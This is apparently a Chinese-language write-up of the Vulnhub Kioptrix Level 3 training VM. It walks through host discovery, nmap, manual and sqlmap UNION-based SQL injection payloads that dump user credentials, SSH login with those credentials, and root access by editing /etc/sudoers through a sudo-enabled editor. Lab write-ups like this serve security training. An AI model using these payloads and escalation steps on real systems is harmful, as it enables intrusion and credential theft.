 ```yaml
---
title: Vulnhub-Kioptrix_Level3
date: 2025-2-25 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息枚举

## 主机发现

```
netdiscover -i eth0 -r 192.168.137.0/24
```

![image-20250320011732744](./././././././././././Kioptrix%20Level3/image-20250320011732744.png)

## nmap

![image-20250320011906500](./././././././././././Kioptrix%20Level3/image-20250320011906500.png)

# WEB服务

![image-20250320014612476](./././././././././././Kioptrix%20Level3/image-20250320014612476.png)

在此页面点击图片跳转到的是kioptrix3.com，将域名解析添加到/etc/hosts中去就可以正常显示图片

![image-20250320014937046](./././././././././././Kioptrix%20Level3/image-20250320014937046.png)

当前页面有个排序功能，尝试对id进行sql注入![image-20250320015113210](./././././././././././Kioptrix%20Level3/image-20250320015113210.png)

出现保存，说明存在注入点，手注测试之后为数字型闭合

## SQL注入

### 手注

判断列数

```
http://kioptrix3.com/gallery/gallery.php?id=0 order by 6--+&sort=photoid#photos
```

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,2,3,4,5,6--+&sort=photoid#photos
```

查询库名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,database(),3,4,5,6--+&sort=photoid#photos
```

查询表名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--+&sort=photoid#photos

表名：
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

查询列名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='gallarific_users'--+&sort=photoid#photos

列名：
userid,username,password,usertype,firstname,lastname,email,datejoined,website,issuperuser,photo,joincode
```

查询内容

```
http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,group_concat(id,"~",username,"~",password),3,4,5,6 from dev_accounts --+&sort=#photos

内容
dreg~0d3eccfb887aabd50f243b3f155c0f85(Mast3r)
loneferret~5badcaf789d3d1d09794d8f021f40f0e(starwars)
```

## sqlmap

```
sqlmap -r sql --batch --dbs -p id
```

![image-20250320021618540](./././././././././././Kioptrix%20Level3/image-20250320021618540.png)

```
sqlmap -r sql --batch -D gallery --tables -p id
```

![image-20250320021634279](./././././././././././Kioptrix%20Level3/image-20250320021634279.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts --columns -p id
```

![image-20250320021806341](./././././././././././Kioptrix%20Level3/image-20250320021806341.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts -C username,password -p id --dump
```

![image-20250320021851115](./././././././././././Kioptrix%20Level3/image-20250320021851115.png)

## ssh连接

尝试使用得到的账号密码进行连接

```
ssh loneferret@192.168.137.133  -oHostKeyAlgorithms=+ssh-rsa
```

loneferret用户目录下有checksec.sh和CompanyPolic.README

![image-20250320022424144](./././././././././././Kioptrix%20Level3/image-20250320022424144.png)

意思就是使用ht编辑器来编辑文档，ht编辑器有sudo权限

那么就只需要在/etc/sudoers中加入该用户就可以了

![image-20250320022816840](./././././././././././Kioptrix%20Level3/image-20250320022816840.png)

解决方法

```
echo $TERM
export TERM=xterm
echo $TERM
```

ht编辑器最下面这行分别对应F1-F10，搜索/etc/sudoers/进行编辑

![image-20250320023044704](./././././././././././Kioptrix%20Level3/image-20250320023044704.png)

添加

```
loneferretALL=(ALL) NOPASSWD:ALL 
```

即可成功提权

![image-20250320023340077](./././././././././././Kioptrix%20Level3/image-20250320023340077.png)

